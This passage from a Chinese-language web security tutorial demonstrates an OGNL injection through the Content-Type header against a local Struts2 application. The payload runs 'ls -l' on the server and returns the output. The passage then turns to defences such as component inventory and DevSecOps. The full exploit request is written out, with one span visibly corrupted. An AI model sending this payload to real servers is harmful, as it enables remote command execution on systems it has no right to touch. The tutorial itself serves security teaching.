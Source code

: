 
下面，我们给它添加一个Content-Type请求头，并将包含multipart/form-data字符串的恶意payload作为它的值。

GET /showcase.action HTTP/1.1
Host: 127.0.0.1:8080
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Content-Type: 
%{(#_='multipart/form-data').(#[email protected]@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ls -l').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=C7D2C0C8353A3D952C576487D42216E3
Connection: close


payload是一段OGNL语句，你可能看不懂它，不用担心，这里我们只需要知道，在payload中cmd的值指定为 ls -l，这样就可以让Web应用执行 ls -l 命令，并将输出进行返回。将我们精心修改后的报文发送出去，你就可以看到页面响应内容变为如下：



可以看到，我们注入的命令 ls -l 的结果已经返回在页面上，攻击成功。

到这里，你已经学习了易受攻击和过时组件会给Web应用造成的威胁，接下来我们来学习如何抵御组件不安全的问题。

防御方式

为了保证我们的Web应用不会因为组件问题，导致威胁的存在，我们需要了解开发的Web应用中所有的组件信息，然后对它们进行检查，判断其中是否有不安全的组件存在，如果存在就对它们进行限制或修改，解决安全隐患，同时持续关注这些组件的安全信息。

这样我们就可以尽可能地减少组件安全性问题发生的概率。不过，上述措施实施起来还是比较困难的，毕竟一个Web应用可能会用到很多的组件。为了解决这个问题，我们可以利用DevSecOps来开发我们的应用。下面，我们来学习DevSecOps是什么以及它是如何保护Web应用组件安全的。

DevSecOps

想要学习DevSecOps，我们首先要了解DevOps是什么。

DevOps即有质量保证的开发与运维，它代表的是一组过程、方法与系统的统称，用于促进开发、技术运营以及质量保障部门之间的沟通、协作与调整。

在DevOps模式下，运维人员会在项目开发期就介入到开发过程中，了解开发人员使用的系统架构和技术路线，从而制定适当的运维方案。而开发人员也会在运维的初期参与到系统部署中，并提供系统部署的优化建议。这样不仅可以加深开发人员和运维人员的感情，还能使得彼此更了解应用的整体情况，有助于提高实施效率。
